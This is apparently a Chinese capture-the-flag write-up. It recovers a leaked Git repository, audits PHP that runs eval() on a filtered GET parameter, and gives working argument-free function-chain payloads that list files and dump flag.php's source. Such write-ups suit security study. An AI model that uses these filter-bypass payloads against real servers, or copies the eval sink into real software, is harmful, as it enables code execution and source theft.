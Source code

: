 ## 0x01 禁止套娃

关键词：Git泄露，文件读取

用dirsearch扫描发现是git泄露，采用GitHack下载泄露的Git发现是index.php![](C:\Gitbook\Import\heart1ess_s_ctf\assets\GXY1.png)打开Index.php进行源码审计，发现过滤：

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

* 过滤伪协议

* \(?R\)引用当前表达式，后面加了?递归调用。只能匹配通过无参数的函数。

* 过滤了et\|na\|info\|dec\|bin\|hex\|oct\|pi\|log关键字。

知识点：

```
scandir(’.’):扫描当前目录
localeconv() 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是.
pos(),current():返回数组第一个值

//数组操作函数：
1.end():数组指针指向最后一位
2.next(): 数组指针指向下一位
3.array_reverse(): 将数组颠倒
4.array_rand(): 随机返回数组的键名
5.array_flip()：交换数组的键和值

//读取文件函数
1.file_get_content() :因为et被ban，所以不能使用
2.readfile()
3.highlight_file()
4.show_source()

session_start(): 告诉PHP使用session;
session_id(): 获取到当前的session_id值；
手动设置cookie中PHPSESSID=flag.php；
```

exp构造原理：利用函数名称来表示要查询的语句和文件名，最后采用show\_source查看源码

Payload:

```
/?exp=print_r(scandir(pos(localeconv())));   //查看该目录下的所有文件
/?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));    //查看该目录下倒数第二位的文件源代码
/?exp=show_source(array_rand(array_flip(scandir(pos(localeconv())))));  //随机查看该目录下的一个文件的源代码
```



